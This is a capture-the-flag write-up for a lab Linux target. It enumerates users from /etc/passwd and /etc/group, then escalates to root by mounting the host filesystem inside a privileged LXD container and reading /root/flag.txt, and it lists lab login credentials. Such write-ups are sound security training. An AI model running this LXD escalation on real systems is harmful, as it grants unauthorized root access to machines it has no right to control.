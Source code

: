 # Containers 1

Target : 10.10.1.14

Credentials : crawley | MXQtE$#7*1a

Tags : Privilege Escalation | Linux User Groups Exploit | LXD Group Exploit
***

## Flag 1: How many users are there on the target machine apart from the root user?

`cat /etc/passwd` displays the users at the end of the file. I also `ls /home` directory and look to see how many user folders there are.
***

## Flag 2: What is the username of the UID 1001 on the target machine?

You can find the answer with the previous command  `cat /etc/passwd`. 
***

## Flag 3: What is the name of the user from the LXD group on the target machine? 

`cat /etc/group | grep "lxd"` will provide with answer.
***

## Flag 4: What is the GID of the LXD group?

The previous command will provide the answer.
***

## Flag 5: What is the value in the file flag.txt at the target?

Found this [blog](https://reboare.github.io/lxd/lxd-escape.html) that greatly helped.

`lxd init`

`lxc init ubuntu:16.04 test -c security.privileged=true`

`lxc config device add test whatever disk source=/ path=/mnt/root recursive=true`

`lxc start test`

`lxc exec test bash`

`cd /mnt/root`

`cd root`

`ls`

`cat flag.txt`

